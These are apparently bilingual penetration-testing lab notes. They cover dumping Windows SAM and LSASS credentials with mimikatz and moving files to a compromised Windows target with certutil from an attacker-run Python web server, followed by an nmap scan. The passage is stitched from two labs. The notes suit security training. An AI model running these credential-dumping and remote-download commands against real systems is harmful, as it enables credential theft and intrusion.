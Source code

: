 If I want to dump the contents of the LSASS process, or the LSASS cache from the memory. 

```
mimikatz # lsadump::sam
```

To dump the data that's stored within the cache pertinent to the SAM database on Windows.

```
mimikatz # exit
```

Tab3 : 

```
cd /root
vim test.txt
This is some test data
python3 -m http.server 80
```

Tab2 :

```
C:\Temp>certutil -urlcache -f http://10.10.5.2/test.txt test.txt
```

```
C:\Temp>dir
C:\Temp>type test.txt
```

That is how to transfer a series of file from your Kali Linux system onto a Windows target that you have compromised.

# Transferring Files To Windows Targets
## Overview
Goal

This lab covers the process of transferring files to Windows targets by leveraging a web server running on the Kali linux system.

# 将文件传输到 Windows 目标
## 概述
目标

本实验介绍了利用 Kali Linux 系统上运行的 Web 服务器将文件传输到 Windows 目标的过程。

## 复现视频内容
Target IP Address : 10.0.25.234

Kali Linux : 10.10.21.3

```
root@attackdefense:~# nmap -sV -p 80 10.0.25.234
Starting Nmap 7.70 ( https://nmap.org ) at 2023-06-22 06:45 IST
Nmap scan report for 10.0.25.234
Host is up (0.0030s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.57 seconds
```
